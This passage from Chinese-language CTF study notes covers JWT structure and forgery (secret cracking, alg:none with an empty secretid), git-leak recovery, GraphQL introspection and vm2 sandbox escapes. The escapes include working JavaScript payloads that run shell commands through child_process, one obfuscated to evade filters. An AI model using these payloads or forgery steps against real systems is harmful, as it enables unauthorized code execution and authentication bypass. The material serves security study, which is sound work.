            }
            -- 可设置的参数
            alg： 加密 / 签名算法，默认值为 HS256
            typ：描述 JWT 的媒体类型，该属性的值只能是 JWT，它的作用是与其他JOSE Header混合时表明自己身份的一个参数（很少用到）
            cty：描述 JWT 的内容类型。只有当需要一个 Nested JWT 时，才需要该属性，且值必须是 JWT。
            kid：KeyID，用于提示是哪个密钥参与加密
            
            Base64url 编码是 Base64 的一种针对 URL 的特定变种。
            因为 = 、+、/ 这个三个字符在 URL 中是有特定含义的，
            所以 Base64url 分别将 = 直接忽略，+ 替换成 -，/ 替换成 _
            ```

    -   **payload：**

        -   原始数据仍是一个 JSON 对象，经过 Base64url 编码方式进行编码后得到最终的 Payload。

        -   这里的数据默认是不加密的，所以不应存放重要数据

        -   JWT的第二部分，它包含声明要求，声明的是关于实体，通常是用户和其他数据的声明，声明有三种：

            -   **registered, public 和 private**：

                -   Registered claims : 这里有一组预定义的声明，它们不是强制的，但是推荐，比如：iss (issuer), exp (expiration time), sub (subject), aud (audience)等。

                -   Public claims：可以随意定义

                -   Private claims：用于在同意使用他们的各方之间共享信息，并且不是注册或公开声明

                -   ```nginx
                    {
                    	"sub":"123456789",
                    	"name":"John",
                    	"admin":ture
                    }
                    
                    官方内置了七个属性，大小写敏感，且都是可选属性
                    iss (Issuer) 签发人，即签发该 Token 的主体
                    sub (Subject) 主题，即描述该 Token 的用途，一般就最为用户的唯一标识
                    aud (Audience) 作用域，即描述这个Token是给谁用的，多个的情况下该属性值为一个字符串数组，单个则为一个字符串
                    exp (Expiration Time) 过期时间，即描述该 Token 在何时失效
                    nbf (Not Before) 生效时间，即描述该 Token 在何时生效
                    iat (Issued At) 签发时间，即描述该 Token 在何时被签发的
                    jti (JWT ID) 唯一标识
                    ```

                    ```
                    这里对 aud 做一个说明，有如下 Payload：
                    {
                        "iss": "server1",
                        "aud": ["http://www.a.com","http://www.b.com"]
                    }
                    那么如果我拿这个 JWT 去 http://www.c.com 获取有访问权限的资源，就会被拒绝掉
                    因为 aud 属性明确了这个 Token 是无权访问 www.c.com 的
                    
                    ```

                    

    -   **Signature：**

        -   为了得到签名，必须有编码绕过header，编码绕过payload，一个密匙，签名算法是header中指定的那个
            -   如：HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), secret)
        -   签名是用于验证消息在传递过程中有木有被更改，并且，对于使用私有签名的token，它还可以验证JWT的发送方是否为它所称的发送方


### 1、JWT：cookie伪造，

-   解码jwt，分析payload中的信息，想办法获取密匙
    -   获取密匙方法：[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker) 进行爆破，Ubuntu使用sudo apt-get install libssl-dev 安装 openssl 的头文件，然后在运行make
    -   爆破指令：**./jwtcrack [JWT加密字符串]**
    -   然后将爆破的密匙通过https://jwt.io/ 网址进行伪造


### 2、JWT：设置secretid为数组加密算法为空

-   将头部的字符串进行base64解密
    -   将alg的值设置为none，然后再进行base64加密，解密后的=号去除
    -   {"alg":"none","typ":"JWT"}
-   将payload部分中的secretid设置为[]，然后加密回去
    -   {"secretid":[],"username":"admin","password":"1","iat":1662189006}
    -   secretid：JWT的原理就是服务端根据`secret`生成token，当然`secret`只有服务器自己才知道是多少，也就让token只能是由服务端签发

-   签名部分因为算法为空所以全部去除留下一个点就可

​	


## 23、git泄露

### 1、githack命令

```nginx
-- 获取git代码
python GitHackpy http-url

-- 查看代码所有提交记录
git log --reflog

-- 恢复代码
git reset commt名称
或
git reset --hard commit名称
```


## 24、GraphQl

### 0、介绍了解

-   >   **graphQL就像一个客户端和服务端一个桥梁，是一个API查询语言。使用基于类型系统来执行查询服务（类型系统由你的数据定义）**
    >
    >   **它没有和任何特定数据库或者存储引擎绑定，而是依靠你现有的代码和数据支撑**
    >
    >   ==graphQl就是摆脱数据库，请求的时候不用一直更换url中的api地址去访问数据，需要数据就只需要访问一个固定的url地址就行==
    >
    >   ==而且查询不用的内容只需要改变post中数据包的内容就行==
    >
    >   ==一个 GraphQL 服务是通过定义类型和类型上的字段来创建的，然后给每个类型上的每个字段提供解析函数==
    >
    >   ```json
    >   -- 比如查询id为1的一个人的生日
    >   query {
    >      person(id:1,personID:1){
    >          id
    >          birthYear
    >      }
    >   }
    >   
    >    -- 返回的数据为
    >    {
    >      "data":{
    >         "Person":{
    >             "id":"xxxxxxx",
    >             "birthYear":"xxxxxx"
    >          }
    >      }
    >    }
    >    -- 还想查身高、发色可以这么写
    >    query {
    >      person(id:1,personID:1){
    >         id
    >         birthYear
    >         heigh
    >          hairColor
    >      }
    >    }
    >    -- 返回的数据为
    >    {
    >      "data":{
    >         "Person":{
    >             "id": "xxxxxxx",
    >             "birthYear": "xxxxxx",
    >              "height": 180,
    >              "hariColor": "xxxxxxx"
    >          }
    >      }
    >    }
    >    ```
    >    
    >    ```json
    >   -- 例如，一个 GraphQL 服务告诉我们当前登录用户是 me，这个用户的名称可能像这样：
    >   
    >-- 请求
    >   type Query {
    >   me: User
    >   }
    >   -- 后台类型
    >   type User {
    >    id: ID
    >   name: String
    >   }
    >   -- 每个类型上字段的解析函数：
    >    function Query_me(request) {
    >    return request.auth.user;
    >   }
    >   
    >   function User_name(user) {
    >    return user.getName();
    >   }
    >   ```
    >   
    >    
    
    **==总结：上面仅用一个API即可完成所有的查询操作，并且他的语法和结构都是以一个对象不同属性的粒度划分==**
    
    -   ==执行的逻辑==
        -   **查询 -> 解析 -> 验证 -> 执行**
        -   **主要操作类型有：query（查询）、mutation（变更）、subscription（订阅）**
    
    -   GraphQL，**类型语言TypeLanguage，type来定义对象的类型和字段，并且支持接口抽象类型**
    
        -   一种叫做Scalar Type(标量类型)【就像对象里的属性】
    
        -   另一种叫做Object Type(对象类型)【就像一个数组】
    
        -   ```json
            语法：
            从客户端把查询语句发过去，服务端怎么处理，Resolver（解析函数）。在graphQL种，Resolver和query是对应的，其他的都是一一对应的，
            比如，articles会被articles的Resolver获取并解析。
            ```
            
        
        ```
        /**
        * '{
        *  		"query":"query{
        *        	users_user_by_pk(id:' . $id . ') {
        *                name
        *           }
        *        }", 
        *        "variables":null
        *  }';
        * 
        * 
        * */
        ```
        
        

### 1、内省查询问题

>   简单来说就是，GraphQL内置了接口文档，你可以通过内省的方法获得这些信息，如对象定义、接口参数等信息。
>
>   当使用者不知道某个GraphQL接口中的类型哪些是可用的，可以通过__schema字段来向GraphQL查询哪些类型是可用的。
>
>   ```
>   {
>     __schema {
>       types {
>         name
>       }
>     }
>   }
>   ```
>
>   

-   通过如下语句可获得的数据为

    -   **返回包返回的就是该API端点的所有信息。复制返回包到以下网址可以得到所有的对象定义、接口信息**

    ```apl
    {"query":"\n    query IntrospectionQuery {\r\n      __schema {\r\n        queryType { name }\r\n        mutationType { name }\r\n        subscriptionType { name }\r\n        types {\r\n          ...FullType\r\n        }\r\n        directives {\r\n          name\r\n          description\r\n          locations\r\n          args {\r\n            ...InputValue\r\n          }\r\n        }\r\n      }\r\n    }\r\n\r\n    fragment FullType on __Type {\r\n      kind\r\n      name\r\n      description\r\n      fields(includeDeprecated: true) {\r\n        name\r\n        description\r\n        args {\r\n          ...InputValue\r\n        }\r\n        type {\r\n          ...TypeRef\r\n        }\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      inputFields {\r\n        ...InputValue\r\n      }\r\n      interfaces {\r\n        ...TypeRef\r\n      }\r\n      enumValues(includeDeprecated: true) {\r\n        name\r\n        description\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      possibleTypes {\r\n        ...TypeRef\r\n      }\r\n    }\r\n\r\n    fragment InputValue on __InputValue {\r\n      name\r\n      description\r\n      type { ...TypeRef }\r\n      defaultValue\r\n    }\r\n\r\n    fragment TypeRef on __Type {\r\n      kind\r\n      name\r\n      ofType {\r\n        kind\r\n        name\r\n        ofType {\r\n          kind\r\n          name\r\n          ofType {\r\n            kind\r\n            name\r\n            ofType {\r\n              kind\r\n              name\r\n              ofType {\r\n                kind\r\n                name\r\n                ofType {\r\n                  kind\r\n                  name\r\n                  ofType {\r\n                    kind\r\n                    name\r\n                  }\r\n                }\r\n              }\r\n            }\r\n          }\r\n        }\r\n      }\r\n    }\r\n  ","variables":null}
    
    ```

    


## 25、Unicode

 **JSON 在decode时，会将Unicode编码的字符串转义回来**

**php【$body 可以直接访问请求body中数组的数据】**


## 26、vm2

### [HFCTF2020]JustEscape

>   在`node.js`中也有`eval`函数，所有可以根据报错信息判断是js还是php

>   js使用Error().stack测试根据回显报错信息判断网站语言类型是否是js
>
>   出现`Error at vm.js:1:1 at Script.runInContext (vm.js:131:20)`,可以判断为vm2沙箱逃逸

>   vm2的playoad在GitHub上有：https://github.com/patriksimek/vm2/issues/225，js拼接字符串突破

```js
"use strict";
const {VM} = require('vm2');
const untrusted = '(' + function(){
	TypeError.prototype.get_process = f=>f.constructor("return process")();
	try{
		Object.preventExtensions(Buffer.from("")).a = 1;
	}catch(e){
		return e.get_process(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
	}
}+')()';
try{
	console.log(new VM().run(untrusted));
}catch(x){
	console.log(x);
}
```

```js
"use strict";
const {VM} = require('vm2');
const untrusted = '(' + function(){
	try{
		Buffer.from(new Proxy({}, {
			getOwnPropertyDescriptor(){
				throw f=>f.constructor("return process")();
			}
		}));
	}catch(e){
		return e(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
	}
}+')()';
try{
	console.log(new VM().run(untrusted));
}catch(x){
	console.log(x);
}
```

```js
(function (){
    TypeError[`${`${`prototyp`}e`}`][`${`${`get_pro`}cess`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return proc`}ess`}`)();
    try{
        Object.preventExtensions(Buffer.from(``)).a = 1;
    }catch(e){
        return e[`${`${`get_pro`}cess`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`ls /`).toString();
    }
})()
```

**存在过滤，可替换的字符**

```js
【""】被过滤可使用【``】符号代替，
	如：`${`x`}y` = xy，而单独使用`${x}`则是将x作为一个变量引入

```


## 27、Apache scxml2 RCE

题目：[HDCTF 2023]BabyJxVx


 
